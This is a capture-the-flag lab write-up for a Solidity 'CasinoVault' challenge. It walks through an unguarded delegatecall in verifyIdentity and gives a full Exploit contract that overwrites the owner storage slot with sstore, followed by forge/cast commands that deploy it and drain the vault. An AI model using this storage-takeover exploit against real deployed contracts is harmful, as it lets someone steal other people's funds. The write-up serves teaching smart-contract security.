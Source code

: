 The vault of this casino can only be opened by the owner. What we are trying to do here is take everything from the owner, but how? &nbsp;    
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
It seems the heist was successful when we managed to empty the vault. A lot of work to be done here, it seems, huh? Let's look at what we're dealing with *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transferred, ) = payable(owner).call{value: address(this).balance}("");
        require(transferred, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can *verifyIdentity* by providing an *address* and a *bytes memory data*, they use delegatecall there, delegate calls are usually used like a "borrowed function". You execute the function in order to modify the state of the caller. In this case, if we parse and address and execute the data there, it will execute the data and modify the state of the *Casino Vault* itself. Unlike Silent-Dealer where there is a function to change owner here the option doesn't present. So how can we become the owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is an operation called *sstore(location, value)*. We can use this to overwrite the storage memory, let's see where the *owner* resides, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
Based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address; this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage, we can use &nbsp;  
&nbsp;  

```solidity
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation, I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the vault. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it, and at last we're going to withdraw all the money stored there. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!